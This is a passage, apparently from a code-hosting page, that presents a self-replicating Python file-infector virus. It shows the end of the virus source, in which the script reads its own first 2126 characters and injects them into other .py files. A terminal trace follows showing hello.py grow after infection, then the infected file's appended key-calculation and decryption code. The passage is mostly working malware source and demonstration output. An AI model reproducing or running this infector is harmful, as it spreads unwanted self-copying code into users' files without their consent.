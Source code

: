 ```python
                script.write(decrypter)
            script.close()


def payload():
    print("You were infected")


def run(virus):
    infect(virus)
    payload()


import sys
host = open(sys.argv[0], "r")
host_text = host.read()
host.close()
virus = host_text[:2126]
run(virus)
```

If we run this code in a folder where there is another file whose extension is .py we will get the following trace:
```shell
probasvx@probasvx:~/virus2$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 13 13:49 .
4 drwxr-xr-x 22 probasvx probasvx 4096 Dec 13 12:11 ..
4 -rw-r--r--  1 probasvx probasvx   22 Dec 13 13:49 hello.py
4 -rw-r--r--  1 probasvx probasvx 2243 Dec 13 13:06 virus.py
probasvx@probasvx:~/virus2$ cat hello.py 
print("Hello world!")
probasvx@probasvx:~/virus2$ python3 virus.py 
You were infected
probasvx@probasvx:~/virus2$ ls -las
total 16
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 13 13:49 .
4 drwxr-xr-x 22 probasvx probasvx 4096 Dec 13 12:11 ..
4 -rw-r--r--  1 probasvx probasvx 2448 Dec 13 13:49 hello.py
4 -rw-r--r--  1 probasvx probasvx 2243 Dec 13 13:06 virus.py
```

In this trace you can see that the file hello.py has increased in size. The content it contains after running the virus 
is as follows:
```python
print("Hello world!")
def calculate_key(text):
    if len(text) >= 3:
        key = ord(text[0]) + ord(text[1]) + ord(text[2])
    else:
        key = 42
    return key


def decrypt(text, key):
    decrypted_text = ""
    for character in text:
        if character.isupper():
            decrypted_text += chr((ord(character) - key - 65) % 26 + 65)
        elif character.islower():
            decrypted_text += chr((ord(character) - key - 97) % 26 + 97)
        else:
            decrypted_text += character
```